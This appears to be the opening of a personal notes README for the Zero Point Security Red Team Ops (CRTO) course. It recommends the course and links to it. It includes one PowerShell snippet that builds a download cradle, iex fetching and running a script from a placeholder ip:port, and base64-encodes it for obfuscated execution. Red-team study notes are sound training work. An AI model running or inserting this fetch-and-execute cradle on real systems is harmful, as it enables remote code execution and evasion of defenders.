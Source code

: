 # crto

**This will be the start of my CRTO review of the notes and the modules. I will combine this later on into the bigger methodology that I'm working on.**

Course is from zero point security, probably one of the best trainings I've received so far. I strongly recommend this to get started in red teaming. 

Course link: [Red Team Ops](https://training.zeropointsecurity.co.uk/courses/red-team-ops)


Side stuff:

for download powershell cradle and base64, in powershell do like so
```
$str = 'iex (new-object net.webclient).downloadstring("http://ip:port/uri")'
[System.Convert]::ToBase64String([System.text.Encoding]::Unicode.GetBytes($str))
```
